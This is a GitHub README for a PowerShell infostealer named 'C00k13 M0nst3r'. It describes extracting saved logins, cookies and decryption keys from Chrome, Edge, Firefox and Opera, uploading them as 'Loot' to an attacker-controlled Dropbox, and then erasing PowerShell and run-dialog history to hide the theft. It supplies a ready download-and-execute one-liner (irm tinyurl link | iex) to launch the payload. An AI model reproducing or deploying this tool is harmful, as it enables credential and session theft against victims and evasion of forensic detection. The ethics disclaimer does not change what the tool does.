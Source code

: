 # C00k13 M0nst3r

## Overview
This script is designed to extract saved logins, cookies, and browser data from Google Chrome, Microsoft Edge, Mozilla Firefox, and Opera browsers. The extracted data is then uploaded to Dropbox in a new folder named "Loot," followed by a subfolder named after the username associated with the data.

## Features
- Extracts saved logins and cookies from Google Chrome.
- Retrieves saved logins and cookies from Mozilla Firefox.
- Captures browser history and bookmarks from Chrome, Edge, Firefox, and Opera.
- Uploads the extracted data to Dropbox for remote access.

## Usage
1. Update the Dropbox token in the script by replacing `'INSERT-YOUR-DROPBOX-TOKEN'` with your actual Dropbox token.
2. Run the script in PowerShell using the provided payload: $db = 'INSERT-YOUR-DROPBOX-TOKEN'; irm tinyurl.com/488cxscc | iex

## Supported Platforms
- Windows 10/11

## Instructions
1. The script grabs Google Chrome data (Login Data, Cookies, and Local State) and compresses it into a zip file.
2. Firefox data (cookies, saved logins) is searched for and compressed into a separate zip file.
3. Browser history and bookmarks are collected from Chrome, Edge, Firefox, and Opera and saved in a file named `--BrowserData.txt`.
4. All extracted data is uploaded to Dropbox using the provided Dropbox token.

## Credits
- Browser history and bookmarks extraction code adapted from [I-Am-Jakoby's browserData.ps1 script](https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/blob/main/Payloads/Flip-BrowserData/browserData.ps1).

## Version
1.0

## Author
Created By: 0D1NSS0N

## Cleanup
After data exfiltration, the script performs cleanup by deleting temporary files, removing run dialog and PowerShell history, and emptying the recycling bin.

## Disclaimer
Use this script responsibly and only for ethical purposes. Unauthorized access and data exfiltration are against the law.

**Note:** Please be cautious while handling sensitive information and respect privacy and legal regulations.

